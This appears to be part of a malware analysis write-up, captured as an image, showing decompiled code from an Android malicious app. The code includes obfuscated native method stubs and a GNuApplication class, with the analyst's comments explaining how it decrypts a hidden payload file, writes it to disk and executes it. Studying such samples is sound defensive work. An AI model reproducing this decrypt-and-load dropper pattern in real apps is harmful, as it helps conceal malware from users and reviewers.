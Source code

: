 ```java
    public static native void op(Object obj, Object obj2, Object obj3, long j, boolean z, int i, String str, int i2);
    public static native String oq(Object obj, int i, String str, boolean z);
    public static native Object or(String str, Object obj, int i);
    public static native Object pe(Object obj, int i);
    public static native Object pi(Object obj, Object obj2, int i, boolean z, String str);
    public static native void pq(Object obj, Object obj2, Object obj3, Object obj4, String str, int i, long j, boolean z, int i2, long j2, String str2);
    public static native Object qc(String str, String str2, long j, String str3, int i, boolean z, int i2);
}
``` 
The `GNuApplication` is the main class that interacts with the native library.

```java

package gf6h8y8;

import android.app.Application;
import s.ni;

public class GNuApplication extends Application {
    public Object a;
    public Class b;

    private void a(Object obj) {

        // Create a Class Object from the decrypted payload file
        // ni.ls loads the decrypted payload file with com.Loader and return Loader object
        // ni.oa loads the payload Loader object
        Class cls = (Class) ni.oa(ni.ls(1), obj, 1, true, 0, false, 1);
        this.b = cls;

        // Executes the payload Loader object
        this.a = ni.iz(cls);
    }

    private void b(String str, Object obj) {
        String oq = ni.oq(this, 1, "", true);
        String om = ni.om(oq, "b");
        e(om, obj);
        a(f(0, str, oq, om));
    }

    private void c(Object obj) {
        // ni.pi decrypt the payload file data
        b(obj.toString(), ni.pi(this, obj, 1, false, ""));
    }

    private void d() {
        System.loadLibrary("vg");
        c("mvmc");
    }

    private static Object e(String str, Object obj) {
        // write the decrypted payload data to a file
        return ni.or(str, obj, 0);
    }

    private Object f(int i, String str, String str2, String str3) {
        return ni.mz(str3, ni.om(str2, str).toString(), 1, false);
    }

    @Override // android.app.Application
```